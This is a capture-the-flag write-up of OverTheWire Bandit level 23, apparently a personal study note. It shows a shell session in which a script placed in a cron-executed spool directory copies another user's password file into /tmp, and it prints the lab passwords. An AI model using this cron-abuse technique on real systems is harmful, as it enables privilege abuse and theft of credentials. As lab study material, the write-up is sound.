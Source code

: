# Level 23

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de Acceso
bandot23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
```bash
bandit23@bandit:~$ 
bandit23@bandit:~$ mkdir /tmp/avc99
bandit23@bandit:~$ cd /tmp/avc99
bandit23@bandit:/tmp/avc99$ nano avcscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/avc99$ cat avcscript.sh 
cat /etc/bandit_pass/bandit24 > /tmp/avc99/password
bandit23@bandit:/tmp/avc99$ chmod 777 avcscript.sh 
bandit23@bandit:/tmp/avc99$ touch password
bandit23@bandit:/tmp/avc99$ chmod 666 password 
bandit23@bandit:/tmp/avc99$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:33 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 28 18:31 avcscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 password
bandit23@bandit:/tmp/avc99$ cp avcscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/avc99$ ls -la
bandit23@bandit:/tmp/avc99$ cp avcscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/avc99$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Notas Adicionales
|comando|descripcion|
|---|---|
|xx|xx|

## Referencias
- []()
